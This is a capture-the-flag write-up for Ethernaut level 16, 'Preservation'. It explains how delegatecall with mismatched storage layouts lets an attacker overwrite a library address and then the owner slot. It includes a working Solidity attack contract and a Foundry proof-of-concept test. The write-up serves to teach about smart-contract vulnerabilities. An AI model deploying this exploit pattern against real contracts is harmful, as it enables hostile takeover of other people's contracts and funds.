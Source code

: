 # Level 16 - Preservation

## Objectives

- Become the owner of the `Preservation` contract.

## Contract Overview

The `Preservation` contract has two functions to set the time in the time zone libraries. It uses `delegatecall` to do so.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Preservation_slither.png)

## Finding the weak spots

The `delegatecall` is a mechanism that allows contract A to execute code from contract B while preserving the state of contract A. This means that any state changes made by contract B during the `delegatecall` will actually affect the state of contract A. Therefore, it is crucial to ensure that both contracts have the same state variables declared in the same order.

However, in the `Preser`vation`contract, there are 5 state variables declared while the`LibraryContract `has only 1. Furthermore, the order of state variable declaration in the `Preservation`contract is different from that in the`LibraryContract`. This means that the `Preservation`contract is not compatible with the`LibraryContract`for the`delegatecall`mechanism, and attempting to delegate a call from the`Preservation`contract to the`LibraryContract` can result in unexpected behavior or errors.

```solidity
contract Preservation {
 address public timeZone1Library; // slot 0
    address public timeZone2Library; // slot 1
    address public owner; // slot 2
    uint256 storedTime; // slot 3
}

contract LibraryContract {
 uint256 storedTime; // slot 0
}
```

When making a delegatecall from the Preservation contract to the LibraryContract, the code from the LibraryContract will be executed using the context of the Preservation contract. This means that any state variables declared in the Preservation contract will be preserved, but their values may be modified by the code executed from the LibraryContract.

In the case of the delegatecall to the LibraryContract's setTime function, the storedTime state variable in the LibraryContract will be modified, but it will be stored in the same memory slot as the first state variable of the Preservation contract (i.e., timeZone1Library at slot 0). It means that the `timeZone1Library` address variable at slot `0` will be modified.

In other words if LibraryContract modify the state, it will not modify its own state but the caller (`Preservation`) one! This mean that when `LibraryContract.setTime` update the `storedTime` state variable is not updating the variable from its own contract but the one in slot0 of the caller contract that is the `timeZone1Library` address.

However, it's important to note that this will not allow us to directly modify the owner variable in the Preservation contract, as it is not related to the LibraryContract or the storedTime value. We would need to find another vulnerability or attack vector to modify the owner variable.

## Potential attack scenario (hypothesis)

Attacker can create a malicious `PreservationAttack` contract that will call the `setFirstTime` function on the `Preservation` contract. In this function call, he will pass the address of his `PreservationAttack` contract as a parameter to the `delegatecall`. This will modify the address `timeZone1LibraryAddress` variable, which is at slot 0 of the `Preservation` contract, to be equal to the address of his `PreservationAttack` contract.

After successfully modifying the `timeZone1Library` variable, attacker can make a second call that will execute the `delegatecall` on his malicious `PreservationAttack` contract. In this call, he can include code that modifies the owner variable of the `Preservation` contract to become his own address. Because the `delegatecall` executes the code of the `PreservationAttack` contract in the context of the `Preservation` contract, it will have access to and be able to modify the state variables of the `Preservation` contract.

By performing these two steps, attacker can effectively take control of the `Preservation` contract and become its owner.

In other words first, attacker calls `setFirstTime` on the `Preservation` contract to overwrite the library address with his malicious `PreservationAttack` contract. Using a second call to `setFirstTime`, the `Preservation` contract invokes the `setTime` function of malicious `PreservationAttack` contract which has the exact same storage layout as the `Preservation` contract. In attacker malicious `setTime` function in `PreservationAttack` contract, attacker simply overwrite the third storage slot (`owner`).

## Plan of the attack

1. Attacker creates the `PreservationAttack` contract.
2. Attacker calls the `attack` function on the `PreservationAttack` contract.
3. Function `attack` makes two calls to the `Preservation` contract.
4. The first call executes a function `setFirstTime` with an address of `PreservationAttack` casted to `uint256`.
5. Because the first call modified the address of `timeZone1LibraryAddress`, the second call will execute a malicious `setFirstTime` function on the `PreservationAttack` contract.
6. The malicious `setTime` function changes the state variable `owner` to be the address of attacker.

## Malicious contract (PreservationAttack.sol)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Preservation.sol";

contract PreservationAttack {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint storedTime;
    Preservation preservationContract;

    constructor(address _preservationContract) {
        preservationContract = Preservation(_preservationContract);
    }

    // 6. The malicious `setTime` function changes the state variable `owner` to be the address of attacker.
    function setTime(uint256 _owner) public {
        owner = address(uint160(_owner));
    }

    // 3. Function `attack` makes two calls to the `Preservation` contract.
    function attack() external {
        // 4. The first call executes a function `setFirstTime` with an address of `PreservationAttack` casted to `uint256`.
        preservationContract.setFirstTime(uint256(uint160(address(this))));
        // 5. Because the first call modified the address of `timeZone1LibraryAddress`, the second call will execute a malicious `setFirstTime` function on the `PreservationAttack` contract.
        preservationContract.setFirstTime(
            uint256(uint160(address(msg.sender)))
        );
    }
}

```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/16-Preservation.t.sol))

```solidity
        // 1. Attacker creates the `PreservationAttack` contract.
        PreservationAttack preservationAttack = new PreservationAttack(
            address(preservationContract)
        );

        emit log_string(
            "--------------------------------------------------------------------------"
        );
        emit log_named_address("Address of attacker: ", attacker);
        emit log_named_address(
            "Address of the contract owner before attack: ",
            preservationContract.owner()
        );
        emit log_string(
            "--------------------------------------------------------------------------"
        );
        emit log_string("Starting the exploit...");
        emit log_string(
            "--------------------------------------------------------------------------"
        );
        // 2. Attacker calls the `attack` function on the `PreservationAttack` contract.
        preservationAttack.attack();

        emit log_named_address(
            "Address of the contract owner after attack: ",
            preservationContract.owner()
        );

        // Test assertion
        assertEq(preservationContract.owner(), attacker);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Preservation.png)

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-16-solution-preservation)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)
- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
